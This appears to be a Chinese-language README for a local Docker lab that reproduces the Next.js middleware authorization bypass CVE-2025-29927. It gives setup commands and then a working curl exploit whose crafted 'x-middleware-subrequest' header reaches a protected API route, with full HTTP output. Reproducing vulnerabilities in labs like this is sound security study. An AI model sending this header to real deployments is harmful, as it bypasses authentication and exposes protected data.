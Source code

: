# Next.js 中间件授权绕过漏洞 (CVE-2025-29927) 

Next.js是一个基于React的Web应用框架。它提供了服务器端渲染、静态网站生成、路由系统和API路由等功能。当Nextjs被配置为使用中间件进行身份验证时，攻击者可以利用漏洞绕过身份验证。


## 启动环境

执行如下命令, 而后访问`http://ip:3000`即可

```
docker compose up --build
```

### 手动运行

运行如下命令

```bash
npm install
```

启动应用

```bash
npm run build
npm start
```

访问 http://ip:3000

## 复现漏洞
直接访问受保护接口：
```
curl -i  http://localhost:3000/api/protected/data
HTTP/1.1 307 Temporary Redirect
location: /unauthorized
Date: Sat, 22 Mar 2025 19:39:36 GMT
Connection: keep-alive
Keep-Alive: timeout=5
Transfer-Encoding: chunked

/unauthorized#
```

运行如下命令即可复现。
```
curl -i -H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware" http://localhost:3000/api/protected/data
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
ETag: "8s59pt2il13l"
Content-Length: 175
Vary: Accept-Encoding
Date: Sat, 22 Mar 2025 19:41:09 GMT
Connection: keep-alive
Keep-Alive: timeout=5

{"message":"成功获取敏感数据","sensitiveData":"这是一些应该受到保护的敏感数据","userId":12345,"adminAccess":true,"timestamp":"2025-03-22T19:41:09.957Z"}#
```